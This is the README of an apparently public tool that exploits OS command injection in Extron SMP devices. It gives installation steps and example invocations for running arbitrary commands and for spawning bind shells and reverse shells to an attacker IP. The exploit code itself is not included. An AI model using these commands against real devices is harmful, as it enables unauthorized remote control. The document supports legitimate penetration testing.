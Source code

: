 ![alt text](https://github.com/layer8secure/extron-smp-inject/blob/main/extron_inject.jpg?raw=true)

# Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

## Overview

This tool exploits OS command injection vulnerabilities in Extron SMP devices. It allows users to execute arbitrary commands and spawn shells (both bind and reverse) on the target system.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command <target_ip> <target_port> --username admin --password <password> "ls -la"
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind <target_ip> <target_port> <local_port> --username admin --password <password>
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse <target_ip> <target_port> <attacker_ip> <attacker_port> --username admin --password <password>
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.


## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
